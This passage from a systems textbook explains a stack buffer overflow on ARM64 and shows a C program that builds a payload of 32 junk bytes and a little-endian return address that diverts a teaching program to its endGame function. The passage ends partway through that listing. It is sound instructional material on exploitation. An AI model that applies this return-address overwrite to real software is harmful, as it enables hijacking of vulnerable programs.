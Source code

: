 ![exploit](_images/finalExploit.png)
:::

::: title
Figure 4. A sample string that can force secret to execute the endGame
function
:::
:::

::: paragraph
Essentially, there are 32 bytes of junk values followed by the return
address. Again, because ARM64 is a
[little-endian](../C4-Binary/byte_order.html#_integer_byte_order){.page}
system by default, the bytes in the return address appear to be in
reverse order.
:::

::: paragraph
The following program illustrates how an attacker could construct the
preceding exploit:
:::

::: listingblock
::: content
``` {.highlightjs .highlight}
#include <stdio.h>

char ebuff[]=
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /*first 10 bytes of junk*/
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /*next 10 bytes of junk*/
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /*following 10 bytes of junk*/
"\x00\x00" /*last 2 bytes of junk*/
"\xec\xa8\xaa\xaa\xaa\xaa\x00\x00" /*address of endGame (little endian)*/
;

int main(void) {
    int i;
    for (i = 0; i < sizeof(ebuff); i++) { /*print each character*/
        printf("%c", ebuff[i]);
    }
    return 0;
```